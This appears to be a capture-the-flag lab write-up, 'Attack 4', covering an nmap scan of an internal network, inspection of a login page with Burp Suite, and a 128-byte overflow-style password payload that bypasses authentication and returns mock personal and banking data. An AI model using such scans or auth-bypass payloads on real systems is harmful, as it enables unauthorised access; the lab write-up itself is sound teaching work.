 # Attack 4

## Background

This attack was done after connecting to the internal network. There was a vulnerability on a login page on one of the hosts on the internal network which had a picture of water flowing over. This strongly suggested that a buffer overflow attack could be performed.

## Solution

By performing a portscan on the internal network with `nmap -sC -sV 10.13.13.0/24` I discovered that the host `10.13.13.254` had a HTTP server running. This webpage had another login field.

There was no visible result when inputting data here, but utilizing Burpsuite it was possible to get a good view on the process, packet by packet.

Sending longer and longer inputs I noticed it sometimes faulted on 128 bytes. By making the 128th byte a "1" which is usually the integer representation for the True boolean I managed to evaluate a required boolean to True. Sending the following request:
```HTTP
POST /login HTTP/1.1
Host: 10.13.13.254
Content-Length: 49

{"username":"jonas.dahle","password":"11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111"}
```
Resulted in the following mock data:
```json
{
  "name": "Jonas Dahl",
  "email": "jonas.dahl@regjeringen.no",
  "address": {
    "street": "Regjeringsgata 16",
    "city": "Oslo",
    "postal_code": "1111",
    "country": "Norway"
  },
  "phone": "+47 123 45 678",
  "birthdate": "1985-06-15",
  "gender": "Male",
  "national_id": "15068512345",
  "passport_number": "N12345678",
  "nationality": "Norwegian",
  "occupation": "Technical Officer",
  "company": {
    "name": "Regjeringen",
    "address": {
      "street": "Regjeringsgata 16",
      "city": "Oslo",
      "postal_code": "1111",
      "country": "Norway"
    },
    "phone": "+47 987 65 432",
    "industry": "Government",
    "position": "Technical Officer",
    "department": "Technical and Infrastructure",
    "start_date": "2010-05-01",
    "manager": "Ingrid Nilsen",
    "manger_username": "ingridnilsen"
  },
  "credit_card": {
    "type": "Visa",
    "number": "4111 2222 3333 4444",
    "expiration": "12/26",
    "cvv": "234",
    "cardholder_name": "Jonas Dahl"
  },
  "bank_account": {
    "bank_name": "Statens Bank",
    "account_number": "1234.56.78910",
    "iban": "NO1234567890123",
    "swift_bic": "STBANOXX"
  },
  "hidden_details": {
    "security_question": "Hva var navnet på din første lærer?",
    "security_answer": "Frøken Andersen",
    "pin": "5678",
    "mother_maiden_name": "Larsen"
  },
  "flag": "Dropbox is the flag :)",
  "dropbox": "https://dropbox.internal.regjeringen.uiaikt.no/"
}
```
From here, the important information for the next attack is the dropbox link at the bottom.